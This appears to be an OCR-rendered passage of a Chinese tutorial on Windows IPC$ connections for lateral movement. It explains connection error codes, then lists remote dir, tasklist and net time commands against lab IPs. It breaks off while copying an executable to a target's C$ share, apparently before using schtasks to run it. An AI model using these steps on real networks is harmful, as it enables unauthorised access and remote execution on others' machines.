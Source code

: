 ### IPC$连接失败原因

- 用户名或密码错误
- 目标没有打开ipc$默认共享

- 不能成功连接目标的139、445端口

### IPC$连接常见错误

```
错误号5:拒绝访问
错误号51: Windows 无法找到网络路径,即网络中存在问题。
错误号53:找不到网络路径,包括IP地址错误、目标未开机、目标的lanmanserver服务未 启动目标有防火墙(端口过滤)
错误号67:找不到网络名，包括lanmanworkstation服 务未启动、ipcs 已被删除
错误号1219:提供的凭据与已存在的凭据集冲突。例如，已经和目标建立了ipcs,需要在删除原连接后重新进行连接。
错误号1326:未知的用户名或错误的密码
错误号1792;试图登录,但是网络登录服务没有启动，包括目标NetLogon服务未启动(连接域控制器时会出现此情况)。
错误号2242:此用户的密码已经过期。例如'目标机器设置了账号管理策略，强制用户定期修改密码°
```

### 利用方式-windows自带命令

#### dir命令

在使用netuse命令与远程目标机器建立ipcs后,可以使用dir命令列出远程主机中的文件,如图

```
dir \\192.168.70.14\c$
```

![image-20230307114224838](https://img.gyxnb.top/img/image-20230307114224838.png)

#### tasklist命令

在使用netuse命令与远程目标机器建立ipcs后,可以使用tasklist命令的`/S、/U /P`参数列出远程主机
上运行的进程

```
tasklist /s 192.168.70.16
```

![image-20230307132143215](https://img.gyxnb.top/img/image-20230307132143215.png)

#### 利用方式-schtasks

##### (1) 查看系统时间

```
net time \\192.168.70.16
```

![image-20230307132237149](https://img.gyxnb.top/img/image-20230307132237149.png)

##### (2)复制文件

```
copy c:\users\mb\desktop\1.exe \\192.168.70.16\C$
```
